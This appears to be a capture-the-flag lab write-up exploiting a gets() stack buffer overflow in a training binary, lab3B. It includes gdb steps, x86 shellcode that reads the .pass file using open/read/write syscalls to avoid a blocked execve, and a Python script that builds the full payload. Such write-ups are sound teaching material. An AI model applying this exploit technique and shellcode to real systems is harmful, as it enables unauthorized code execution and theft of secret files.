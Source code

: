 # lab3B.c analysis
When we execute the `lab3B` binary we get the option to enter user input. After that the program exits.

# int main()
This time the vulnerable spot in the code is not hidden at all. We´re supposed to enter out payload at the `gets()`. There are no bounds-checks therefore we can overflow the buffer. The only thing interesting thing mentionable is that the code checks whether `syscall 11` is being called. If that´s the case the child is being killed.

# analysing the stack
Our goal will be to do a very basic buffer overflow. So we´re filling the buffer with a padding till we reach the return address and then overwrite the return address with the address that our evil code is being written at and write the evil code we want to execute. To see how `esp` look we want to set a breakpoint after we entered user input.
> gdb lab3B

> disassemble main

![](src/disassemble_main.png)
> b *0x08048a2a

> run

now we enter something like "a" and hit our breakpoint and see how our `esp` looks like.

> x/90wx $esp

> bt

![](src/esp.png)
![](src/bt.png)
Now we see that it takes 156 bytes to reach the return address.

# writing our malicious code
As mentioned earlier, we cant do the `syscall 11` which is executing an `exec` command. To get our flag we´re still able to utilize other `syscalls`. The flag is in the `.pass` file. So we could retrieve it by reading from the file.

<h3>open the file</h3>
```
sub    esp,0x100
push   0x0
push   0x73736170
push   0x2e2f4233
push   0x62616c2f
push   0x656d6f68
push   0x2f2f2f2f
mov    eax,0x5
mov    ebx,esp
mov    ecx,0x0
mov    edx,0x0
int    0x80
```
| %eax       | %ebx          | %ecx     | %edx |
|------------|---------------|----------|------|
| syscall nr | ptr file name | int flag | mode |

To make an `open()` syscall, we need to pass multiple arguments. One of them being the name of the file. With the `push` instruction we´re pushing the path to our file to the stack. Since our code is on the stack we want to move the stack pointer before doing that.

<h3>read from file</h3>
```
mov    ebx,eax
mov    eax,0x3
mov    ecx,esp
mov    edx,0x18
int    0x80
```
| %eax       | %ebx                | %ecx              | %edx   |
|------------|---------------------|-------------------|--------|
| syscall nr | ret value from open | buffer to read to | length |
The only thing to be aware of when reading from a file is to fill `ebx` with the return value stored in `eax` before assigning `eax` with the new syscall. Otherwise, the value gets lost.

<h3>write to console</h3>
```
mov    eax,0x4
mov    ebx,0x1
mov    edx,0x18
int    0x80
```
| %eax       | %ebx            | %ecx                 | %edx             |
|------------|-----------------|----------------------|------------------|
| syscall nr | type of writing | buffer to write from | length of buffer |

# writing the payload
Our payload should contain the padding then the new return address and then our assembly code. To get our assembly code in hex we can use a [website](https://defuse.ca/online-x86-assembler.htm#disassembly).
```python
padding = b"\x99" * 156
retAddr = b"\x00\xf7\xff\xbf"
code = b"\x81\xEC\x00\x01\x00\x00\x6A\x00\x68\x70\x61\x73\x73\x68\x33\x42\x2F\x2E\x68\x2F\x6C\x61\x62\x68\x68\x6F\x6D\x65\x68\x2F\x2F\x2F\x2F\xB8\x05\x00\x00\x00\x89\xE3\xB9\x00\x00\x00\x00\xBA\x00\x00\x00\x00\xCD\x80\x89\xC3\xB8\x03\x00\x00\x00\x89\xE1\xBA\x18\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xBA\x18\x00\x00\x00\xCD\x80"
payload = padding + retAddr + code
with open("payload","wb") as f:
    f.write(payload)
```
After executing the python script and piping the payload as our input we get our flag!

> python genPayload.py

> gdb

> run lab3B < payload

![](src/flag.png)
